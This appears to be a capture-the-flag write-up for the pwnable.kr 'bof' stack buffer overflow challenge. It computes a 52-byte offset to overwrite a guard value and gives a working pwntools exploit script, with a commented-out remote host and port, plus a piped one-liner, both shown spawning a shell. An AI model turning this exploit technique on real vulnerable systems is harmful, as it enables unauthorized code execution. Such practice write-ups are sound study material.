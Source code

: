 We can clearly see that,

```0xffffd7e0``` has ```0xdeadbeef```

Our buffer starts after ```0xffffd7a0```+ ```12 bytes``` = ```0xffffd7ab```

Lets find the offset of the ```0xdeadbeef``` data,

```offset=0xffffd7e0-0xffffd7ac```

Offset distance can be given by,

```
>>> hex(0xffffd7e0-0xffffd7ac)
'0x34'
>>> print(0x34)
52
```

So ```0xdeadbeef``` comes after 52 bytes of buffer

If we can overwrite ```0xdeadbeef``` with ```0xcafebabe```, a shell will be opened

-----

Now, lets try to exploit the program locally using ```pwntools```

```
ra@moni~/P/p/bof> cat exploit.py
#!/usr/bin/python
from pwn import *
buf=""
buf+="A"*52
buf+=p32(0xcafebabe)
host="128.61.240.205"
port=9000
#p=remote(host,port)
p=process('./bof')
p.send(buf)
p.interactive()
```

By running this exploit

```
ra@moni~/P/p/bof> python exploit.py
[+] Starting local process './bof': pid 36634
[*] Switching to interactive mode

$
$ whoami
ra
$
[*] Interrupted
[*] Stopped process './bof' (pid 36634)
```

Other way to exploit by piping,

```
ra@moni:~/PWNPractice/pwnable.kr/bof$ (python -c "print('A'*52+'\xbe\xba\xfe\xca')";cat) | ./bof
overflow me :
whoami
ra
ls
bof  bof.c  bof.md  exploit.py